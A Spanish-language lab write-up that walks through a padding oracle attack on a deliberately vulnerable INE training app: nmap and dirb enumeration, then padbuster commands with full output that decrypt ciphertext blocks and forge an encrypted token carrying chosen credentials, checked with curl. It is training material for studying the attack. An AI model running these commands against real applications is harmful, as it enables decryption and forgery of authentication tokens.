




# Attack Crypto

## Teoría

El ejercicio se basa en entender como funciona la operación criptográfica que utiliza el servidor e intentar inferir la clave


## Laboratorios

Enunciado:
```
In this lab, you will learn to perform a padding oracle attack on a vulnerable application to steal the signing key and also create a valid attacker-controlled encrypted message.


Lab Environment
In this lab environment, the user will get access to a Kali GUI instance. A Python application vulnerable to padding oracle attack can be accessed using the tools installed on Kali at http://demo.ine.local.
Objective: Exploit the vulnerable application to perform a padding oracle attack and steal the signing key. Also, create a valid attacker-controlled encrypted message.


Acknowledgements
The setup code is based on the following Github repository:
https://github.com/GDSSecurity/PaddingOracleDemos


Tools
The best tools for this lab are:
Nmap
Padbuster
A web browser

Please go ahead ONLY if you have COMPLETED the lab or you are stuck! Checking the solutions before actually trying the concepts and techniques you studied in the course will dramatically reduce the benefits of a hands-on lab!
``` 

### Enumeración del servicio

```bash
root@INE:~# nmap demo.ine.local
Starting Nmap 7.92 ( https://nmap.org ) at 2024-12-31 02:02 IST
Nmap scan report for demo.ine.local (192.135.68.3)
Host is up (0.000024s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:C0:87:44:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds
```

Enumeración de urls en el servidor:
```bash
root@INE:~# dirb http://demo.ine.local

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Dec 31 02:05:39 2024
URL_BASE: http://demo.ine.local/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://demo.ine.local/ ----
+ http://demo.ine.local/check (CODE:200|SIZE:27)                                                                                                                                            
+ http://demo.ine.local/console (CODE:200|SIZE:1985)                                                                                                                                       
+ http://demo.ine.local/encrypt (CODE:200|SIZE:41)                                                                                                                                         
                                                                                                                                                                                           
-----------------
END_TIME: Tue Dec 31 02:05:46 2024
DOWNLOADED: 4612 - FOUND: 3
```



### Cifrado por url:

```
http://demo.ine.local/encrypt?plain=ApplicationUsername%3duser%26Password%3dsesame

```
resouesta:
```
crypted: 6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80
```

### descifrado por url

```
http://demo.ine.local/echo?cipher=6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80
```
respuesta:

```
decrypted: ApplicationUsername=user&Password=sesame
```

### revisión de errores

```
These errors may suggest that:
• The string consists of hexadecimal characters (0-0xff)
• The string has to be aligned to two characters
• The string is being decrypted somehow
```

### utilizando padbuster

```bash
root@INE:~# padbuster "http://demo.ine.local/echo?cipher=6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80" "6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80" 16 -encoding 1

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 51

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     42      N/A
2 **    255     200     16      N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (191/256) [Byte 16]
[+] Success: (29/256) [Byte 15]
[+] Success: (167/256) [Byte 14]
[+] Success: (58/256) [Byte 13]
[+] Success: (192/256) [Byte 12]
[+] Success: (54/256) [Byte 11]
[+] Success: (138/256) [Byte 10]
[+] Success: (50/256) [Byte 9]
[+] Success: (184/256) [Byte 8]
[+] Success: (115/256) [Byte 7]
[+] Success: (25/256) [Byte 6]
[+] Success: (180/256) [Byte 5]
[+] Success: (64/256) [Byte 4]
[+] Success: (219/256) [Byte 3]
[+] Success: (252/256) [Byte 2]
[+] Success: (230/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): b8f1335522753d45174435c16b52dc2e
[+] Intermediate Bytes (HEX): 0a0b2bcd40ec8741c671cc45c25ae140
[+] Plain Text: ame=user&Passwor

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (217/256) [Byte 16]
[+] Success: (42/256) [Byte 15]
[+] Success: (167/256) [Byte 14]
[+] Success: (153/256) [Byte 13]
[+] Success: (52/256) [Byte 12]
[+] Success: (197/256) [Byte 11]
[+] Success: (181/256) [Byte 10]
[+] Success: (233/256) [Byte 9]
[+] Success: (215/256) [Byte 8]
[+] Success: (166/256) [Byte 7]
[+] Success: (225/256) [Byte 6]
[+] Success: (163/256) [Byte 5]
[+] Success: (195/256) [Byte 4]
[+] Success: (178/256) [Byte 3]
[+] Success: (61/256) [Byte 2]
[+] Success: (52/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): 5bbd4363b9d91d4c9100beae6ce34e80
[+] Intermediate Bytes (HEX): dccc4030511450201f4c3dc9635ad426
[+] Plain Text: d=sesame

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): ame=user&Password=sesame

[+] Decrypted value (HEX): 616D653D757365722650617373776F72643D736573616D650808080808080808

[+] Decrypted value (Base64): YW1lPXVzZXImUGFzc3dvcmQ9c2VzYW1lCAgICAgICAg=

-------------------------------------------------------

```

Revisando los bloques descifrados, se detecta que:

```
Block 1 Results:
[+] Cipher Text (HEX): b8f1335522753d45174435c16b52dc2e
[+] Intermediate Bytes (HEX): 0a0b2bcd40ec8741c671cc45c25ae140
[+] Plain Text: ame=user&Passwor

Block 2 Results:
[+] Cipher Text (HEX): 5bbd4363b9d91d4c9100beae6ce34e80
[+] Intermediate Bytes (HEX): dccc4030511450201f4c3dc9635ad426
[+] Plain Text: d=sesame

```



se han podido descifrar dos bloques de tres, esto es debido a que no conocemos el vector de inicialización IV


si revisamos la repuesta completa:

```
http://demo.ine.local/check?cipher=6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80
```
```
decrypted: ApplicationUsername=user&Password=sesame parsed: {'Password': ['sesame'], 'ApplicationUsername': ['user']}
```
### Análisis del cifrado

```
6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80
```
```
ApplicationUsername=user&Password=sesame
```
Bloque 1: (No descifrado)

```
6b664ef0359fe233e021ad36b12d8e32
ApplicationUsern
```

Bloque 2
```
b8f1335522753d45174435c16b52dc2e
ame=user&Passwor
```

Bloque 3:
```
5bbd4363b9d91d4c9100beae6ce34e80
d=sesame

```

Trabajando sobre el bloque 1:
```
root@INE:~# padbuster "http://demo.ine.local/check?cipher=6b664ef0359fe233e021ad36b12d8e32" "6b664ef0359fe233e021ad36b12d8e32" 16 -encoding 1 -error "ApplicationUsername missing" -prefix "6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e" -noiv

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 27

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 1 ***

[+] Success: (244/256) [Byte 16]
[+] Success: (188/256) [Byte 15]
[+] Success: (256/256) [Byte 14]
[+] Success: (236/256) [Byte 13]
[+] Success: (158/256) [Byte 12]
[+] Success: (168/256) [Byte 11]
[+] Success: (165/256) [Byte 10]
[+] Success: (168/256) [Byte 9]
[+] Success: (180/256) [Byte 8]
[+] Success: (246/256) [Byte 7]
[+] Success: (242/256) [Byte 6]
[+] Success: (173/256) [Byte 5]
[+] Success: (252/256) [Byte 4]
[+] Success: (185/256) [Byte 3]
[+] Success: (229/256) [Byte 2]
[+] Success: (206/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 6b664ef0359fe233e021ad36b12d8e32
[+] Intermediate Bytes (HEX): 221449095f050045505c5e671003460d
[+] Plain Text: "I      _EP\^gF

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361.
-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): "I _EP\^gF

[+] Decrypted value (HEX): 221449095F050045505C5E671003460D

[+] Decrypted value (Base64): IhRJCV8FAEVQXF5nEANGDQ==

-------------------------------------------------------

```



### creando con padbuster un nuevo token

```bash
root@INE:~# padbuster "http://demo.ine.local/check?cipher=6b664ef0359fe233e021ad36b12d8e32" "6b664ef0359fe233e021ad36b12d8e32" 16 -encoding 1 -error "ApplicationUsername missing" -prefix "6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e" -plaintext "=xyz&ApplicationUsername=f0ns1&Password=access"

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 27

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 3

[+] Success: (129/256) [Byte 16]
[+] Success: (238/256) [Byte 15]
[+] Success: (58/256) [Byte 14]
[+] Success: (228/256) [Byte 13]
[+] Success: (246/256) [Byte 12]
[+] Success: (214/256) [Byte 11]
[+] Success: (50/256) [Byte 10]
[+] Success: (129/256) [Byte 9]
[+] Success: (72/256) [Byte 8]
[+] Success: (253/256) [Byte 7]
[+] Success: (25/256) [Byte 6]
[+] Success: (49/256) [Byte 5]
[+] Success: (9/256) [Byte 4]
[+] Success: (249/256) [Byte 3]
[+] Success: (131/256) [Byte 2]
[+] Success: (39/256) [Byte 1]

Block 3 Results:
[+] New Cipher Text (HEX): a8017a8dac9e6d8c16aa4f6a6bb6127c
[+] Intermediate Bytes (HEX): c97209fac3ec09b177c92c0f18c5107e

[+] Success: (16/256) [Byte 16]
[+] Success: (204/256) [Byte 15]
[+] Success: (30/256) [Byte 14]
[+] Success: (94/256) [Byte 13]
[+] Success: (195/256) [Byte 12]
[+] Success: (171/256) [Byte 11]
[+] Success: (129/256) [Byte 10]
[+] Success: (108/256) [Byte 9]
[+] Success: (88/256) [Byte 8]
[+] Success: (46/256) [Byte 7]
[+] Success: (249/256) [Byte 6]
[+] Success: (2/256) [Byte 5]
[+] Success: (92/256) [Byte 4]
[+] Success: (227/256) [Byte 3]
[+] Success: (9/256) [Byte 2]
[+] Success: (255/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 448b76db9c6db5c4a11e6356d5d010a1
[+] Intermediate Bytes (HEX): 11f813a9f20cd8a19c785338a6e136f1

[+] Success: (246/256) [Byte 16]
[+] Success: (121/256) [Byte 15]
[+] Success: (25/256) [Byte 14]
[+] Success: (126/256) [Byte 13]
[+] Success: (171/256) [Byte 12]
[+] Success: (82/256) [Byte 11]
[+] Success: (205/256) [Byte 10]
[+] Success: (94/256) [Byte 9]
[+] Success: (158/256) [Byte 8]
[+] Success: (60/256) [Byte 7]
[+] Success: (195/256) [Byte 6]
[+] Success: (252/256) [Byte 5]
[+] Success: (125/256) [Byte 4]
[+] Success: (60/256) [Byte 3]
[+] Success: (67/256) [Byte 2]
[+] Success: (79/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 9ccab3f42e77be1bc65dcb31f28dea65
[+] Intermediate Bytes (HEX): a1b2ca8e0836ce6baa34a85086e4850b

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: 9ccab3f42e77be1bc65dcb31f28dea65448b76db9c6db5c4a11e6356d5d010a1a8017a8dac9e6d8c16aa4f6a6bb6127c00000000000000000000000000000000
-------------------------------------------------------

```

validación:


```bash
root@INE:~# curl -X GET "http://demo.ine.local/check?cipher=9ccab3f42e77be1bc65dcb31f28dea65448b76db9c6db5c4a11e6356d5d010a1a8017a8dac9e6d8c16aa4f6a6bb6127c00000000000000000000000000000000" --output test.html
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   202  100   202    0     0  69487      0 --:--:-- --:--:-- --:--:--   98k
root@INE:~# cat test.html ; echo
decrypted: zU�H���W�v=xyz&ApplicationUsername=f0ns1&Password=access
parsed: {'\x00\xd6\x93zU\xa4H\xff\xb4\x81W\xd2\x1d\x00v\x06': ['xyz'], 'Password': ['access'], 'ApplicationUsername': ['f0ns1']}
```




[back](./)

